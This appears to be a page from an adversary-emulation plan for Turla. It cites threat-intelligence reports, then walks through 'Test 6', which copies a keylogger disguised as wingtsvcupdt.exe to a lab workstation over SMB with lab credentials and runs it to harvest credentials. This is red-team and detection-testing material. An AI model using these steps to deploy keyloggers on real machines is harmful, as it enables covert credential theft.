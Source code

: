 ### :microscope: Cited Intelligence

* [Report 4: SwissCERT - RUAG Report](https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html)
* [Report 9: Symantec - Waterbug New Toolset](https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments)
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/waterbug-espionage-governments>
* <https://www.welivesecurity.com/2019/05/29/turla-powershell-usage/>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>

<br>

## Test 6: Keylogger

:microphone: `Voice Track:`

Test 6 emulates Turla installing a custom keylogger (`wingtsvcupdt.exe`) on
`Adalwolfa`'s workstation and harvesting credentials from the system.

---

### ☣️ Procedures

:arrow_right: Start a new RDP session to `khabibulin (10.20.20.104)` as
`adalwolfa` (if no existing RDP from a previous test):

| Username   | Password |
| :--------: | :---------------: |
| skt\adalwolfa  | Password2! |

:arrow_right: From the "smbclient" tab on the Kali Linux machine, copy over
the keylogger to `khabibulin (10.20.20.104)`:

```bash
smbclient -U 'skt.local\adalwolfa'%'Password2!' //10.20.20.104/C$ -c 'put keylogger.exe Windows\Temp\wingtsvcupdt.exe'
```

:arrow_right: Return to your RDP session to `khabibulin (10.20.20.104)` as `adalwolfa`.

* Open an elevated Windows Command Prompt and execute the following command to
start the keylogger:

```bat
C:\Windows\Temp\wingtsvcupdt.exe
```

* NOTE: This should hang the terminal with the following output:
>
* ```text
      >Monitoring window information...
      >Set hooks
      >```

